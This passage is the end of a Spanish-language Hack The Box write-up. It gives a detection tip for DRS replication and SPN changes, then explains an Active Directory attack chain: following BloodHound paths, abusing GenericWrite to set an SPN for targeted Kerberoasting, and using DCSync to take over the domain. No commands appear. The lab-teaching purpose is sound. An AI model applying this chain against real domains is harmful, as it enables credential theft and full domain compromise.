- Monitorizar solicitudes de replicación DRS inusuales y cambios de SPN en cuentas de usuario como indicadores de Kerberoasting dirigido y DCSync.

## 7. Flujo de ataque



> 💡 **El porqué de cada paso:** esta máquina no depende de una sola vulnerabilidad técnica, sino de **seguir el grafo de BloodHound** repetidamente — cada cuenta nueva que se compromete abre un camino distinto (un permiso ACL, un recurso de red, un fichero con secretos) que hay que volver a enumerar desde cero. `GenericWrite` merece mención aparte: no es tan directo como `GenericAll`, pero permite técnicas más sutiles como asignar un SPN temporal para forzar un Kerberoasting dirigido contra una cuenta que normalmente no sería "kerberoasteable". Y, como en toda cadena AD, el punto de no retorno es encontrar una cuenta con derechos de replicación (DCSync): a partir de ahí, el compromiso del dominio completo es inmediato.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
